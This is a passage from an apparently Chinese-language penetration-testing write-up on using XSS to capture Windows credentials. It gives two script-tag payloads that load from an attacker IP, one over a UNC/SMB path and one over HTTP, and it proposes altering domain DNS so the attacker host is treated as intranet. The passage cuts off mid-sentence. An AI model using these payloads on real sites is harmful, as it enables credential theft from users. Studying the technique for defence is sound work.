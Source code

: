 修改后的配置同样适用于chrome

那至今为止，在默认的配置情况底下，如果有xss，那构造的页面的效果有两种

1. 构造unc，访问smb 协议，但是这种方式的话就只有IE和edge能行

```html
<script src="\\172.16.100.1\xss">
```



2. 构造http，访问http 协议，这种方式并不限制浏览器访问，但是除非该站点的域名位于企业内部网或存在于可信站点列表中，不然是不会使用系统默认的凭据进行登录的，会跳出认证框，让用户填写账号密码。

```html
<script src="//172.16.100.1\xss">
```



第二点该站点的域名位于企业内部网也是行的，那如果我们可以修改控制域内的DNS是不是就可以动点手脚了。

在查看DNS的ACL的时候，我发现了一条规则
